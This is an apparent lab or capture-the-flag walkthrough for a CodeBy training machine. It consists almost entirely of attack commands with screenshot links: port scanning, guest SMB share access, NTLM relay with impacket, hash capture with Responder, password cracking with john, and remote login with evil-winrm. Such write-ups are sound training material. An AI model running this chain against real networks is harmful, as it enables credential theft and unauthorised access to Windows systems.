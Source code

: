dddd

```
nmap -sT -sV 192.168.2.10 -p- -v -sC   
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/51a14674-777b-4d0b-af75-8fa1dafbb111)

```
smbmap -H 192.168.2.10 -u "guest" -p "" -d codeby.cdb
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9614c6dd-1708-4ce1-ba8c-d8f31e30c194)
```
smbclient -no-pass //192.168.2.10/Files-for-checkers
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ac244dec-07a4-4de4-8c10-7660ac6cb37a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b3e7b5b1-a533-4e9e-9c8a-f0e0e53ec1a3)

```
impacket-ntlmrelayx -t 192.168.2.10  -smb2support -debug  
```

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/a984c248-c211-4e67-8ca4-c3d99cd73c36)

https://pentestlab.blog/tag/smb-relay/

https://xakep.ru/2023/04/07/ntlm-relay-guide/#toc04.2

```
sudo responder -wd -I eth0
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7cdbe0d6-b20f-477e-abd0-acd2923370f5)

```
john --wordlist=/home/kali/PAYLOADS/rockyou.txt hash_pass.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e216110c-dd36-4911-826a-9bbb3a9e54b2)
```
evil-winrm -i 192.168.2.10 -u 'LOGIN' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ced3007d-f8a7-4737-8bad-9dee47deb159)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f16b6da8-76f4-4340-a34f-fa898db1179c)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/f74c3a4b-9d74-4460-a305-db0363889c3a)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d6fa22e4-c734-43e5-bb3f-a9c65a51d086)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/e909d3ab-97fd-43c7-a5a7-b2c0663d73ea)



